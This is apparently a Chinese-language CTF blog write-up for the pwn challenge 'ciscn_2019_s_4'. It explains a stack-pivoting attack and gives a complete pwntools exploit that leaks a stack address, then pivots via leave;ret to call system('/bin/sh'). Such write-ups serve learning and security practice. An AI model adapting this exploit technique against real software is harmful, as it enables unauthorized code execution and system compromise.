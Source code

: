 ```yaml
---
title: 'ciscn_2019_s_4'
date: 2024-01-17 13:00:00 +0800
categories: [ctf,pwn]
tags: [Stack_Pivoting]
---
```


![image-20240117144616542](../assets/img/old_imgs/image-20240117144616542.png)

1. 存在漏洞函数,`s`变量存在溢出,但是长度不够,考虑栈迁移
2. 通过溢出打印(动态调试也可以)`ebp`栈上地址,计算得出`s`的地址,栈迁移到`s`的位置上
3. 向`s`中写入`payload`得到`shell`

![image-20240117145052413](../assets/img/old_imgs/image-20240117145052413.png)

计算得到偏移量为`0x38`

```python
from pwn import *
context.log_level = 'debug'
elf = ELF('./ciscn_s_4')
io = process('./ciscn_s_4')
#io = gdb.debug('./ciscn_s_4')
padding = b'A'*0x27+b'B'
payload1 = padding
leave_ret = 0x08048562
io.sendafter(b'Welcome, my friend. What\'s your name?\n',payload1)
io.recvuntil(b'B')
s_addr = u32(io.recv(4))-0x38
print('s_addr->',hex(s_addr))

payload2 = p32(0)+p32(elf.plt['system'])+p32(0)+p32(s_addr+0x10)+b'/bin/sh\x00'
payload2 = payload2.ljust(0x28,b'\x00')
payload2 += p32(s_addr)+p32(leave_ret)
io.send(payload2)

io.interactive()
```

详细关于栈迁移在之前随笔中有详解,不再赘述

有几个注意点:

1. `padding`中`B`起到标识位作用,方便后续交互
2. `payload2`开头`p32(0)`是为了填充`leave`指令
3. `b'/bin/sh'`的地址计算与`b\x00'`截断
